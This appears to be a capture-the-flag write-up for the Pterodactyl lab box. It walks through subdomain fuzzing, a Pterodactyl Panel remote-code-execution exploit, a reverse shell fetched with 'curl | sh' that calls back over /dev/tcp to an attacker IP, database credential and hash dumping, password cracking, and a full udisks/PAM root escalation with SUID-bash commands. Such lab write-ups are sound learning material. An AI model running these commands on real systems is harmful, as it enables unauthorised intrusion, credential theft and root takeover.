


# Overview

What was this box about? What made it interesting or what did you learn?
One short paragraph.

# Enumeration

## Nmap

```bash
# Ports

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

# Services

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6 (protocol 2.0)
| ssh-hostkey:
|   256 a3741ea3ad02140100e6abb4188416e0 (ECDSA)
|_  256 65c833177ad6523d63c3e4a960642dcc (ED25519)
80/tcp open  http    nginx 1.21.5
|_http-server-header: nginx/1.21.5
|_http-title: Did not follow redirect to http://pterodactyl.htb/
```

- 2 ports, HTTP, and SSH 9.6)
- SSH (OpenSSH 9)
- HTTP running an nginx server. The domain name seems to be `pterodactyl.htb`.

## SSH (tcp/22)

- There were no supplied credentials to try to access this.

## HTTP (tcp/80)

- There is a minecraft server running on port 80
- Clicking the `copy server ip` button copies `play.pterodactyl.htb` to the clipboard
- There is a link to a changelog, that opens `http://pterodactyl.htb/changelog.txt` in a new tab.

  

### Changelog

- Changelog has the following:

```plaintext
MonitorLand - CHANGELOG.txt
======================================

Version 1.20.X

[Added] Main Website Deployment
--------------------------------
- Deployed the primary landing site for MonitorLand.
- Implemented homepage, and link for Minecraft server.
- Integrated site styling and dark-mode as primary.

[Linked] Subdomain Configuration
--------------------------------
- Added DNS and reverse proxy routing for play.pterodactyl.htb.
- Configured NGINX virtual host for subdomain forwarding.

[Installed] Pterodactyl Panel v1.11.10
--------------------------------------
- Installed Pterodactyl Panel.
- Configured environment:
  - PHP with required extensions.
  - MariaDB 11.8.3 backend.

[Enhanced] PHP Capabilities
-------------------------------------
- Enabled PHP-FPM for smoother website handling on all domains.
- Enabled PHP-PEAR for PHP package management.
- Added temporary PHP debugging via phpinfo()
```

### Subdomains

- Subdomains are mentioned here, therefore it might be possible to fuzz for them.

```bash
[Jul 02, 2026 - 14:30:00 (+08)] exegol-htb pterodactyl # ffuf -c -w `fzf-wordlists` -u "http://pterodactyl.htb" -H "Host: FUZZ.pterodactyl.htb" -fc 302

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://pterodactyl.htb
 :: Wordlist         : FUZZ: /opt/lists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.pterodactyl.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 302
________________________________________________

panel                   [Status: 200, Size: 1897, Words: 490, Lines: 36, Duration: 401ms]
:: Progress: [4989/4989] :: Job [1/1] :: 1785 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```

- Fuzzing for subdomains using the Host header shows an additional subdomain called `panel.pterodactyl.htb`



- Opens a login page for pterodactyl.

### Login Panel Vulnerability

- The changelog states that the version of Pterodactyl installed is `1.1.10`.
- This version is vulnerable to path traversal, file inclusion and command injection.
- Two POCs were used in order to get a foothold on the machine.
  - [CVE-2025-49132](https://github.com/rippsec/CVE-2025-49132-PHP-PEAR)
  - [CVE-2025-49132-Pterodactyl-Panel-Unauthenticated-Remote-Code-Execution-RCE](https://github.com/dollarboysushil/CVE-2025-49132-Pterodactyl-Panel-Unauthenticated-Remote-Code-Execution-RCE-/tree/main)

# Initial Access

## Ripsec POC

- Running the first POC shows that this version of pterodactyl is vulnerable.

```bash
[Jul 02, 2026 - 22:43:53 (+08)] exegol-htb CVE-2025-49132-PHP-PEAR # python3 poc.py -H panel.pterodactyl.htb --scan
╔══════════════════════════════════════╗
║   CVE-2025-49132 - Pterodactyl RCE   ║
╚══════════════════════════════════════╝
[*] Scanning: http://panel.pterodactyl.htb/locales/locale.json
-------------------------------------------------------
[+] VULNERABLE - Database credentials leaked
    Host:     127.0.0.1
    Port:     3306
    Database: panel
    Username: pterodactyl
    Password: PteraPanel
    Connection: pterodactyl:PteraPanel@127.0.0.1:3306/panel
[+] VULNERABLE - App configuration leaked
    App Key: base64{{UaThTPQnUjrrK61o}}+Luk7P9o4hM+gl4UiMJqcbTSThY=
    [!] SECURITY WARNING: APP_KEY exposed!
    App Name: Pterodactyl
    URL:      http://panel.pterodactyl.htb
-------------------------------------------------------
```

- There were exposed database credentials here as well as an exposed app key.
- The database credentials couldn't be used right away to connect to the machine.
- The first POC had an RCE component to it, but it didn't work, neither did using its command flag to input an RCE script.

## DollaarBoySushi POC

- The second POC relied on crafting the payload manually, and having it get curl-ed from the attacking system and then run in one command.

- Listener - Terminal 1

```bash

[Jul 02, 2026 - 23:55:17 (+08)] exegol-htb CVE-2025-49132-Pterodactyl-Panel-Unauthenticated-Remote-Code-Execution-RCE- # penelope -p 9001
[+] Listening for reverse shells on 0.0.0.0:9001 →  127.0.0.1 • 192.168.0.103 • 172.17.0.1 • 10.10.14.99
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from pterodactyl~10.129.10.131-Linux-x86_64 😍️ Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12
[+] Logging to /root/.penelope/sessions/pterodactyl~10.129.10.131-Linux-x86_64/2026_07_02-23_55_27-704.log 📜
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
wwwrun@pterodactyl:/var/www/pterodactyl/public> whoami
wwwrun
wwwrun@pterodactyl:/var/www/pterodactyl/public> id
uid=474(wwwrun) gid=477(www) groups=477(www)
wwwrun@pterodactyl:/var/www/pterodactyl/public> uname -a
Linux pterodactyl 6.4.0-150600.23.65-default #1 SMP PREEMPT_DYNAMIC Tue Aug 12 00:37:41 UTC 2025 (aedcb04) x86_64 x86_64 x86_64 GNU/Linux
wwwrun@pterodactyl:/var/www/pterodactyl/public>
```

- Payload - Terminal 2

```bash

[Jul 03, 2026 - 00:02:14 (+08)] exegol-htb CVE-2025-49132-Pterodactyl-Panel-Unauthenticated-Remote-Code-Execution-RCE- # cat rce.sh
sh -i >& /dev/tcp/10.10.14.99/9001 0>&1
```

- HTTP Server - Terminal 3

```bash

[Jul 03, 2026 - 00:02:14 (+08)] exegol-htb CVE-2025-49132-Pterodactyl-Panel-Unauthenticated-Remote-Code-Execution-RCE- # python3 -m http.server 8080
```

- POC Activator - Terminal

```bash

[Jul 02, 2026 - 23:55:05 (+08)] exegol-htb CVE-2025-49132-Pterodactyl-Panel-Unauthenticated-Remote-Code-Execution-RCE- # python3 CVE-2025-49132-dbs.py --target panel.pterodactyl.htb --cmd 'curl http://10.10.14.99:8080/rce.sh | sh'

CONFIGURATION (CHANNEL PEAR.PHP.NET):
=====================================
Auto-discover new Channels     auto_discover    <not set>
Default Channel                default_channel  pear.php.net

<SNIP>

```

## User Flag

- There are 2 users in the `/home` directory. One of which can be accessed to find the user flag.

```bash
wwwrun@pterodactyl:/home/phileasfogg3> cat user.txt
5a19b03818d0e9******************
wwwrun@pterodactyl:/home/phileasfogg3>
```

## Data Mining

- The exploit used to get into the target returned database credentials, which were used on the machine to access the local instance of MariaDB

```bash
wwwrun@pterodactyl:/home/phileasfogg3> mysql -u pterodactyl -p -P 3306
mysql: Deprecated program name. It will be removed in a future release, use '/usr/bin/mariadb' instead
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 362
Server version: 11.8.3-MariaDB MariaDB package

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases
    -> ;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| panel              |
| test               |
+--------------------+
3 rows in set (0.001 sec)
```

- The database test has nothing inside it, but the database panel has a users table that has information on the two users of this target.

```mysql
MariaDB [(none)]> use panel;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [panel]> show tables;
+-----------------------+
| Tables_in_panel       |
+-----------------------+
| activity_log_subjects |
| activity_logs         |
| allocations           |
| api_keys              |
| api_logs              |
| audit_logs            |
| backups               |
| database_hosts        |
| databases             |
| egg_mount             |
| egg_variables         |
| eggs                  |
| failed_jobs           |
| jobs                  |
| locations             |
| migrations            |
| mount_node            |
| mount_server          |
| mounts                |
| nests                 |
| nodes                 |
| notifications         |
| password_resets       |
| recovery_tokens       |
| schedules             |
| server_transfers      |
| server_variables      |
| servers               |
| sessions              |
| settings              |
| subusers              |
| tasks                 |
| tasks_log             |
| user_ssh_keys         |
| users                 |
+-----------------------+
35 rows in set (0.001 sec)

MariaDB [panel]> select id,username,email,root_admin,password from users;
+----+--------------+------------------------------+------------+--------------------------------------------------------------+
| id | username     | email                        | root_admin | password                                                     |
+----+--------------+------------------------------+------------+--------------------------------------------------------------+
|  2 | headmonitor  | headmonitor@pterodactyl.htb  |          1 | $2y$10$3WJht3/5GOQmOXdljPbAJet2C6tHP4QoORy1PSj59qJrU0gdX5gD2 |
|  3 | phileasfogg3 | phileasfogg3@pterodactyl.htb |          0 | $2y$10$PwO0TBZA8hLB6nuSsxRqoOuXuGi3I4AVVN2IgE7mZJLzky1vGC9Pi |
+----+--------------+------------------------------+------------+--------------------------------------------------------------+
2 rows in set (0.001 sec)
```

## Cracking the hashed passwords.

- Hash was identified to be a bcrypt hash, and using John and wordlist, the hashes were cracked.

```bash
[Jul 03, 2026 - 01:26:43 (+08)] exegol-htb loot # hashcat -m 3200 hashes.txt /usr/share/wordlists/rockyou.txt -a 0

<snip>

$2y$10$PwO0TBZA8hLB6nuSsxRqoOuXuGi3I4AVVN2IgE7mZJLzky1vGC9Pi:!QAZ2wsx

<snip>
```

- This can be used to either switch user using `su`, or ssh in as the user `phileasfogg3`

```bash
wwwrun@pterodactyl:/home/phileasfogg3> su phileasfogg3
Password:
phileasfogg3@pterodactyl:~> whoami
phileasfogg3
phileasfogg3@pterodactyl:~> id
uid=1002(phileasfogg3) gid=100(users) groups=100(users)
phileasfogg3@pterodactyl:~>
```

# Privilege Escalation

## Enumeration as PhileasFogg3

- `sudo -l` shows that the user maay run all commands on this box with a password.

```bash
phileasfogg3@pterodactyl:~> sudo -l
[sudo] password for phileasfogg3:
Matching Defaults entries for phileasfogg3 on pterodactyl:
    always_set_home, env_reset, env_keep="LANG LC_ADDRESS LC_CTYPE LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE LC_TIME
    LC_ALL LANGUAGE LINGUAS XDG_SESSION_COOKIE", !insults, secure_path=/usr/sbin\:/usr/bin\:/sbin\:/bin, targetpw

User phileasfogg3 may run the following commands on pterodactyl:
    (ALL) ALL
```

- Searching for writable files shows a lot of file in the /proc folder, and also shows the mail folder, profile, bashrc, etc.

```bash
phileasfogg3@pterodactyl:~> find / -writable -type f 2>/dev/null

<SNIP>

/home/phileasfogg3/.bashrc
/home/phileasfogg3/.profile
/home/phileasfogg3/.emacs
/home/phileasfogg3/.inputrc
/var/spool/mail/phileasfogg3
```

- The mail folder had one email sent by the sysadmin to the user regarding unusual activity in the `udisks daemon`.

```bash
phileasfogg3@pterodactyl:~> cat /var/spool/mail/
headmonitor   phileasfogg3

phileasfogg3@pterodactyl:~> cat /var/spool/mail/headmonitor
cat: /var/spool/mail/headmonitor: Permission denied

phileasfogg3@pterodactyl:~> cat /var/spool/mail/phileasfogg3
From headmonitor@pterodactyl Fri Nov 07 09:15:00 2025
Delivered-To: phileasfogg3@pterodactyl
Received: by pterodactyl (Postfix, from userid 0)
id 1234567890; Fri, 7 Nov 2025 09:15:00 +0100 (CET)
From: headmonitor headmonitor@pterodactyl
To: All Users all@pterodactyl
Subject: SECURITY NOTICE — Unusual udisksd activity (stay alert)
Message-ID: 202511070915.headmonitor@pterodactyl
Date: Fri, 07 Nov 2025 09:15:00 +0100
MIME-Version: 1.0
Content-Type: text/plain; charset="utf-8"
Content-Transfer-Encoding: 7bit

Attention all users,

Unusual activity has been observed from the udisks daemon (udisksd). No confirmed compromise at this time, but increased vigilance is required.

Do not connect untrusted external media. Review your sessions for suspicious activity. Administrators should review udisks and system logs and apply pending updates.

Report any signs of compromise immediately to headmonitor@pterodactyl.htb

— HeadMonitor
System Administrator
```

## Possible LPE related to Udisks Daemon

- The Udisks Daemon vulnerability affects openSUSE 15 and SUSE Linux Exterprise 15.
- The os-version here is 15.6 which might be vulnerable to LPE via the above daemon.

```bash
phileasfogg3@pterodactyl:~> cat /etc/os-release
NAME="openSUSE Leap"
VERSION="15.6"
ID="opensuse-leap"
ID_LIKE="suse opensuse"
VERSION_ID="15.6"
PRETTY_NAME="openSUSE Leap 15.6"
ANSI_COLOR="0;32"
CPE_NAME="cpe:/o:opensuse:leap:15.6"
BUG_REPORT_URL="https://bugs.opensuse.org"
HOME_URL="https://www.opensuse.org/"
DOCUMENTATION_URL="https://en.opensuse.org/Portal:Leap"
LOGO="distributor-logo-Leap"
```

## CVE-2025-6018: LPE from unprivileged to allow_active in \*SUSE 15's PAM

> The problem: udisks actions you need for CVE-2025-6019 require an allow_active polkit session, which means a physical console user. SSH sessions don't qualify. CVE-2025-6018 abuses how openSUSE 15's PAM stack processes ~/.pam_environment.

```bash
phileasfogg3@pterodactyl:/tmp/privesc> echo -e "XDG_SEAT=seat0\nXDG_VTNR=1" > ~/.pam_environment
phileasfogg3@pterodactyl:/tmp/privesc> exit
logout
Connection to pterodactyl.htb closed.
```

- Logged back in since the `.pam_environment` file is read on session creation. Checked polkit to see if it sees allow_active

```bash
phileasfogg3@pterodactyl:~> pkcheck --action-id org.freedesktop.udisks2.loop-setup --process $$ && echo POLKIT_OK
POLKIT_OK
```

- This means the polkit has been fooled.

## CVE-2025-6019: LPE from allow_active to root in libblockdev via udisks

> When udisks asks libblockdev to resize an XFS filesystem, libblockdev mounts the filesystem internally at /tmp/blockdev.XXXXXX to run the resize tooling — and that internal mount does NOT carry udisks's nosuid,nodev security flags. For the duration of the resize, the filesystem is live with full SUID semantics. The attack: put a SUID-root bash inside an XFS image, trigger the resize, and execute it from that temp path before the resize unwinds.

### Getting the bash binary from the target

- The bash binary from the victim needs to be copied over to the attacker, because the `glibc, libtinfo`, and other shared libraries are attached at runtime. Using the bash binary from the attacker will result in a segmentation fault.

```bash
scp phileaasfogg3@pterodactyl.htb:/usr/bin/bash ./bash
```

### Creating the malicious payload

- A malicious XFS image has to be created with an SUID root copy of bash inside. The image has to be greated than 512MB to go above the minimum allocation requirements.

```bash
dd if=/dev/zero of=payload.img bs=1M count=512
```

- Format the payload as XFS.

```bash
mkfs.xfs -f payload.img
```

- This has to be mounted via the attacker's host loop subsystem, and install the SUID binary onto it.

```bash
sudo mkdir -p /mnt/xfs && sudo mount -o loop payload.img /mnt/xfs

sudo cp bash /mnt/xfs/rootbash

sudo chown root:root /mnt/xfs/rootbash
```

- The SUID and SGID bits need to be set, as this is what causes the kernel to execute as the file's owner regardless of who runs it.

```bash
sudo chmod 6755 /mnt/xfs/rootbash
```

- After which it is unmounmted so that it can be linked up with the target.

```bash
sudo umount /mnt/xfs
```

### Sending the payload over

```bash
scp payload.img phileaasfogg3@pterodactyl.htb:/tmp/payload.img
```

### Trigger the exploit

- Before triggering the exploit, kill the `gvfs-udisks2-volume-monitor` which auto-mounts block devices the moment they appear. If this auto-mounts the payload, it will refuse to resize a filesystem that has been mounted elsewhere.

```bash
killall -KILL gvfs-udisks2-volume-monitor 2>/dev/null
```

- Register the image file as a block device on the kernel's loop subsystem.
- udiskctl handles this without root by calling the udisks2 loop setup D-bus method. THis is allowed for `allow_active` sessions.

```bash
phileasfogg3@pterodactyl:~> udisksctl loop-setup -f /tmp/payload.img
Mapped file /tmp/payload.img as /dev/loop0.
```

- If the image were to be mounted now, udisk's mount handler will add `nosuid and noddev` bits to the stop things like this. This is why CVE-2025-6019 is needed to buy time during the resizing of the XFS volume.This window of time is where the SUID-root shell is triggered.

- Use two SSH sessions.
- The first is a watcher to catch the format, and the second is the trigger for the resize operation.

```bash
# Trigger

phileasfogg3@pterodactyl:~> gdbus call --system --dest org.freedesktop.UDisks2 --object-path /org/freedesktop/UDisks2/block_devices/loop0 --method org.freedesktop.UDisks2.Filesystem.Resize 0 '{}'
```

```bash
# watcher

phileasfogg3@pterodactyl:~> while true; do find /tmp /run /var/tmp -maxdepth 3 -type d \( -name '*resize*' -o -name '*blockdev*' -o -name 'temp-*' -o -name '.*-XXX*' \) 2>/dev/null; done | awk '!seen[$0]++'

/tmp/blockdev.VY5KP
```

- The watcher above gives the location of the temporary mount. The next time a resize is triggered, the window to get root appears.
- During this window, `rootbash` becomes briefly root inside the `/tmp/blockdev.*` temporary mount. The loop will use this to copy bash to `/tmp/pwned` and give it SUID-root. Basically rerun the trigger.

```bash
phileasfogg3@pterodactyl:~> while true; do
>   for d in /tmp/blockdev.*; do
>     if [ -x "$d/rootbash" ] && "$d/rootbash" -p -c \
>       'cp /bin/bash /tmp/pwned; chmod 4755 /tmp/pwned; echo PWNED' 2>/dev/null
>     then
>       break 2
>     fi
>   done
> done
PWNED
```

- Once this is done, run the suid-root bash binary with the -p flag so it doesn't drop privileges.

```bash
phileasfogg3@pterodactyl:~> /tmp/pwned -p
pwned-4.4#
```

# Lessons Learned

## Challenges

- I came upon the email mentioning the udisk daemon by change when I was checking for writable files. This made me realise that I have to always look for mail if possible. There might be clues there.
- This box was quite challenging in that I really couldn't get the privesc to work out of the box. I got to a very detailed writeup about the vulnerability [here](https://www.openwall.com/lists/oss-security/2025/06/17/4), but needed to understand how the mounted media could be used to escalate privileges.
- The 0xdf writeup for this box was really helpful in helping me understand the attack chain as well.

## Things to do differently

- Add mail to my internal enum checklist for the future.
- Thoroughly understand the potential vulnerabiliy, and how it affects the underlying system before trying a ton of out of the box POCs.
